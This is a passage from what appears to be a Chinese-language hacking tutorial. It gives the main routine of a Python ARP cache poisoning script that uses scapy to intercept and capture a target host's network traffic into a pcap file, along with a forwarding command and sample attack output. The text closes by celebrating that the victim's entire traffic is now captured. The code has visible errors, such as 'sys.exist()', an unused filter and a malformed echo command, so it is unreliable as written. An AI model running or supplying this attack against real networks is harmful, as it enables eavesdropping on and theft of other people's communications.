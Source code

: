 ```python
        sys.exit(0)
    else:
        print "[*] Gateway %s is at %s" %(GATEWAY_IP, GATEWAY_MAC)

    TARGET_MAC = get_mac(TARGET_IP)
    if TARGET_MAC is None:
        print "[-] Failed to get target MAC. Exiting."
        sys.exit(0)
    else:
        print "[*] Target %s is at %s" % (TARGET_IP, TARGET_MAC)

    poison_thread = threading.Thread(target = poison_target, args=(GATEWAY_IP, GATEWAY_MAC, \
        TARGET_IP, TARGET_MAC))
    poison_thread.start()

    try:
        print '[*] Starting sniffer for %d packets' %PACKET_COUNT
        bpf_filter = 'IP host ' + TARGET_IP
        packets = sniff(count=PACKET_COUNT, iface=INTERFACE)
        wrpcap('results.pcap', packets)
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)

    except Scapy_Exception as msg:
        print msg, "Hi there!!"

    except KeyboardInterrupt:
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)
        sys.exist()
```

为了运行ARP缓存感染脚本，我们需要告诉本地主机(Kali Linux)向网关和目的IP转发数据包：

```sh
$ echo 1 /proc/sys/net/ipv4/ip_foward
```

最后，我们运行这个脚本，会得到如下输出：

```
$ sudo python arp_cache_poisoning.py
[*] Setting up wlp1s0
[*] Gateway 192.168.1.1 is at 00:90:a9:a3:f1:46
[*] Target 192.168.1.107 is at 00:25:9c:b3:87:c4
[*] Beginning the ARP poison. [CTRL-C to stop]
[*] Starting sniffer for 1000 packets
[*] ARP poison attack finished.
[*] Restoring targets...
```

运行过程中，我们将看到受攻击主机(Windows)的变化：

![](http://i.imgur.com/RFdIz4H.png)

一旦你完成了，打开这个脚本生成的PCAP文件。BAM！受攻击主机的整个网络流量数据都在你手中了！
